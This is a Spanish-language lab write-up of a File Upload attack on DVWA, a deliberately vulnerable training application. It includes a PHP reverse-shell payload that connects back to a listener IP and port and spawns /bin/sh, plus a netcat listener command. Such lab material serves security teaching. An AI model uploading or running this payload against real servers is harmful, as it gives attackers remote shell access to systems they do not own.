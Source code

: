 # File Upload

La vulnerabilidad **File Upload** se produce cuando una aplicación web incorpora archivos externos en sus operaciones basadas en la entrada proporcionada por el usuario sin validar adecuadamente la entrada. \
Esto puede permitir a los atacantes manipular el contenido de los archivos incluidos o incluso ejecutar código malicioso.
En esta sección se lleva a cabo un ejemplo de ataque utilizando esta vulnerabilidad.

## Level: Low
```
<?php

$ip=192.168.5.137; #IP del servidor DVWA
$port=9001; #Puerto de escucha
$sock=fsockopen($ip, $port);
exec("bin/sh -i <&3 >&3 2>&3");

?>
```

Se carga este archivo desde el cargador del servidor.

Ahora se crea un listener con **netcat**, que será donde se tendra acceso al servidor atacado (DVWA).

```
nc -lvnp 9001
```

Luego, desde la barra de direcciones se puede ejecutar el archivo malicioso.

